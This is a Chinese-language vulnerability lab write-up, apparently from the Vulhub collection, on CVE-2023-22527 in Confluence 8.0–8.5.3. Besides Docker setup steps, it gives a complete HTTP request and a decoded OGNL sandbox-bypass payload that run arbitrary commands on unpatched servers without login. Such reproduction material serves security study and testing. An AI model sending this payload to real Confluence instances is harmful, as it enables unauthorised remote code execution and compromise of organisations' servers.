 # Confluence OGNL表达式注入命令执行漏洞 CVE-2023-22527

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统。

在Confluence 8.0到8.5.3版本之间，存在一处由于任意velocity模板被调用导致的OGNL表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击Confluence服务器并执行任意命令。

参考链接：

- [https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html](https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html)
- [https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/](https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/)

## 环境搭建

Vulhub 执行如下命令启动一个Confluence Server 8.5.3：

```
docker compose up -d
```

环境启动后，访问`http://your-vps-ip:8090`即可进入安装向导。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的试用版许可证，申请方法可参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)。

在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![](images/Confluence%20OGNL表达式注入命令执行漏洞%20CVE-2023-22527/image-20240226144953603.png)

## 漏洞复现

直接发送如下请求即可执行任意命令，并在HTTP返回头中获取执行结果：

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: your-vps-ip:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

在Confluence 7.18.0版本后，官方开发者为其引入了`isSafeExpression`函数来限制执行恶意OGNL表达式。安全研究者[Alvaro Muñoz](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/)分享了一种利用velocity模板中的`#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(String, Object)`来获取无沙箱的OGNL对象并执行任意语句的绕过方法，完整并解码后的Payload如下：

```
'+(#request['.KEY_velocity.struts2.context'].internalGet('ognl').findValue(@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"})),{}))+'
```
